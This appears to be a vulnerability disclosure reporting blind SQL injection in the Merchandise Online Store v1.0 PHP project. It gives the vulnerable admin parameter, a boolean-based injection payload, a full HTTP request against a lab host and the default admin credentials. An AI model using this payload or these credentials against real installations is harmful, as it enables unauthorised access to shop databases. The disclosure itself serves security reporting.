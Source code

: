 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/admin/?page=orders/view_order&id=

Vulnerability location: /vloggers_merch/admin/?page=orders/view_order&id=,id

[+] Payload: /vloggers_merch/admin/?page=orders/view_order&id=2%27%20and%20length(database())%20=17--+ // Leak place ---> id

Current database name: vloggers_merch_db,length is 17

```sql
GET /vloggers_merch/admin/?page=orders/view_order&id=2%27%20and%20length(database())%20=17--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 16, Content-Length: 27212
![image](https://user-images.githubusercontent.com/54017627/166898817-3e249449-75b3-4940-b5fe-53a545b8dd0e.png)

![image](https://user-images.githubusercontent.com/54017627/166898708-04ea05e8-b222-441f-9f47-61db8b3c0690.png)

When length (database ()) = 17, Content-Length: 25470
![image](https://user-images.githubusercontent.com/54017627/166898766-1ec2c77a-e89d-40e5-bc03-f70381e63b13.png)

![image](https://user-images.githubusercontent.com/54017627/166898634-916268ea-1917-4af4-9775-61f8d4b84779.png)
